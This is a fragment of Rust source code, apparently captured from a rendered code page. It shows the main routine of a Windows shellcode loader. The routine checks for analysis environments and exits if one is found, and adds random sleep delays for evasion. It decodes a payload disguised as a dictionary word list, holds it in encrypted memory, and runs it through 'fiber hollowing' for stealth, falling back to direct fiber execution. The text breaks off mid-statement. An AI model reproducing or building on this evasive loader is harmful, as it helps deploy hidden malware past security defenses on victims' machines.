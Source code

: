 ```rust
}

// Update main function to use the new fiber-based execution methods
fn main() -> Result<(), Box<dyn Error>> {
    // Enhanced environment detection with multiple checks
    if comprehensive_environment_check() {
        return Ok(()); // Exit if environment is suspicious
    }
    
    // Add initial delay with variance
    random_sleep(500, 25);
    
    // Create decoder from embedded dictionary array
    let mut decoder = Decoder::new_from_array(EMBEDDED_DICTIONARY);
    
    // Validate dictionary integrity
    if !decoder.validate_dictionary() {
        return Ok(());
    }
    
    // Parse the pipe-delimited load from the embedded string
    let load_content = ENCODED_PAYLOAD.lines()
        .find(|line| !line.starts_with("//") && !line.trim().is_empty())
        .unwrap_or("");
    
    if load_content.is_empty() {
        return Ok(());
    }
    
    // Split the pipe-delimited words
    let encoded_words: Vec<&str> = load_content.split('|').collect();
    
    // Decode the embedded code using the enhanced array-based method
    let code = decoder.decode_from_array_with_recovery(&encoded_words);
    
    if code.is_empty() {
        return Ok(());
    }
    
    // Create encrypted memory container for code with integrity verification
    let mut encrypted_memory = EncryptedMemory::new(code);
    
    // Verify code integrity before execution
    if !encrypted_memory.verify_integrity() {
        return Ok(());
    }
    
    // Add delay before execution
    random_sleep(500, 25);
    
    #[cfg(target_os = "windows")]
    {
        unsafe {
            // Try fiber hollowing first for better stealth
            let code_data = encrypted_memory.get_decrypted_data();
            
            match execute_via_fiber_hollowing(code_data) {
                Ok(_) => {
                    return Ok(());
                },
                Err(_) => {
                    // Fallback to direct fiber execution
                    match execute_code_with_fibers(&mut encrypted_memory) {
```